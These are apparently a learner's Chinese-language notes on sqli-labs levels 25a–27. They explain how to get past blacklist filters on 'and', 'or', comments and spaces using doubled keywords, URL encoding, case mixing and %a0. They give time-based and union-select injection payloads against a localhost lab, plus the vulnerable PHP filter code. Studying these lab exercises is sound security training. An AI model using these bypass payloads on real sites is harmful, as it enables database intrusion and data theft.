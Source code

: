 

过滤了and or 类可以使用

anandd

%26%26

**有一个疑问**，为什么使用普通的url编码可以（例如%26%26，但是&& 竟然不可以）

一般绕过and or 类，可以考虑绕&&，||，%26%26，大小写，双写关键字(anandd,andand)，编码 

**在burp里面，将get 数据包更改post ,可以不用进行url编码，方便注入操作。**



##第25a关 

数字型注入，过滤了and or  

http://127.0.0.1/sqli-labs/Less-25a?id=1 anandd sleep(5) -- - 





##第26关 

与25关一样，sql语句没有单撇，过滤了and 和 or 但没有递归过滤 

http://127.0.0.1/sqli-labs/Less-25a?id=1 anandd sleep(5) — - 

当然不使用and也没有问题 

http://127.0.0.1/sqli-labs/Less-25a?id=-1 union select 1,user(),3 -- - 



##第26a关 

过滤了or and /* — # 空格 / 

Ps:%a0 空格的意思，类unix操作系统可以绕过，但windows 并不解析这个字符 

源代码 

​    $id= preg_replace('/or/i',"", $id);         //strip out OR (non case sensitive) 

​    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive) 

​    $id= preg_replace('/[\/\*]/',"", $id);      //strip out /* 

​    $id= preg_replace('/[--]/',"", $id);        //Strip out -- 

​    $id= preg_replace('/[#]/',"", ​$id);         //Strip out # 

​    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces 

​    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes 

Payload:  使用%a0 进行绕过

http://127.0.0.1/sqli-labs/Less-26?id='%a0unioN%a0select(1),(user()),(3)' 



##第27关 

基于原来的黑名单，又增加了过滤union select, 但程序的黑名单都是基于关键字的并没有递归，所以通过混淆大小写可以绕过。 
